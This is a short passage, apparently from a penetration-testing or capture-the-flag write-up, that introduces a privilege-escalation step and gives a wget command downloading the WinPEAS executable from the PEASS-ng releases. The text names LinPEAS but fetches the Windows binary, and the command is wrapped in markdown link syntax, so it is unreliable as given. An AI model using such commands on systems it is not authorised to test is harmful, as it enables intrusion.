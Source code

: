 ![image.png](image%2019.png)

Now let’s escalate our privileges using every hacker's favorite tool, LinPEAS.

```bash
wget [https://github.com/peass-ng/PEASS-ng/releases/download/20241205-c8c0c3e5/winPEASx64_ofs.exe](https://github.com/peass-ng/PEASS-ng/releases/download/20241205-c8c0c3e5/winPEASx64_ofs.exe)
```
